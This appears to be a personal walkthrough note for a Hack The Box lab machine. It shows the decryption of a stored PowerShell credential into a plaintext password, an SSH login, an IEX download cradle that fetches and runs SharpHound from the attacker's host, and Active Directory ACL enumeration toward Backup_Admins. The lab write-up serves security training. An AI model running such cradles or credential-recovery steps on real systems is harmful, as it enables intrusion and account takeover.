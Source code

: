 
Password
```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692
```

```
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
```

```
$user = "HTB\Tom"
```

```
$cred = New-Object System.Management.Automation.PSCredential($user,$pass)
```

```
$cred.GetNetworkCredential() | fl
```

![[Pasted image 20240510125918.png]]

```
1ts-mag1c!!!
```


Now will try to get an SSH shell
```
ssh tom@10.10.10.77
```

![[Pasted image 20240510130253.png]]

This means we have to run Bloodhound for that we have to use SharpHound.ps1
```
IWR -Uri http://10.10.16.20/SharpHound.ps1 -OutFile SharpHound.ps1
```

or
```
IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.20/SharpHound.ps1")
```

Not able to run the Bloodhound from the sharp hound function will see what mistake i am doing . Refer the PDF once to see how they have run the bloodhound.
```
Invoke-BloodHound -CollectionMethod All
```

We don't have to run this as there is some problem with .net version so will simply download the acl something from the tom
https://forum.hackthebox.com/t/sharphound-ps1-doesnt-work/266964

![[Pasted image 20240510163007.png]]

Made a smb share to copy the file
![[Pasted image 20240510164619.png]]
![[Pasted image 20240510164630.png]]
![[Pasted image 20240510164644.png]]

Will filter the data and see what data or info we get out of it.
![[Pasted image 20240510165611.png]]

After adding a filter we get a objectname herman@HTB.local who has write access.
![[Pasted image 20240511021329.png]]


```
ObjectName	ObjectType	ObjectGuid	PrincipalName	PrincipalType	ActiveDirectoryRights	ACEType	AccessControlType	IsInherited

herman@HTB.LOCAL	USER		nico@HTB.LOCAL	USER	WriteOwner		AccessAllowed	False
```

And Tom has write write access onver clair
![[Pasted image 20240511021637.png]]

And if we search with a Claire than we can say that it has access to Backup_Admins@HTB_LOCAL
![[Pasted image 20240511021845.png]]


```
net groups /domain
```
![[Pasted image 20240511023040.png]]

![[Pasted image 20240511023923.png]]

